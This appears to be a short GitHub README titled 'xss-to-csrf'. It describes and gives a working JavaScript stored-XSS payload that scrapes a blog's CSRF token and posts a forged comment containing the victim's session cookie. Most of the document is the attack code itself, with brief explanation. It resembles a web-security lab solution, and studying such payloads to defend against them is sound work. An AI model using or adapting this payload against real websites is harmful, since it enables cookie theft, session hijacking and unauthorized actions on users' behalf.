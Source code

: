 # xss-to-csrf

The code snippet provided demonstrates a Cross-Site Request Forgery (CSRF) attack utilizing a Cross-Site Scripting (XSS) vulnerability.

By combining the Stored XSS vulnerability to inject the malicious script and the CSRF attack to perform unauthorized actions on the victim's behalf, this code demonstrates a dangerous scenario where the victim would post a new comment on a blog with his cookie information in case the Stored XSS paylaod gets triggered.

```JavaScript
var request = new XMLHttpRequest();
request.responseType = "document"
request.open("GET", "/post?postId=7", true);

request.onload = function(e) {
  var csrf = e.target.response['body'].querySelectorAll('[name="csrf"]')[0].value;
  
  data = "csrf=" + csrf + "&postId=7&comment=" + document.cookie + "&name=victim&email=victim@victim.com&website=http://victim.com"
  
  var request = new XMLHttpRequest();
  request.open("POST", "/post/comment", true);
  request.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
  request.send(data);
}
request.send();
```
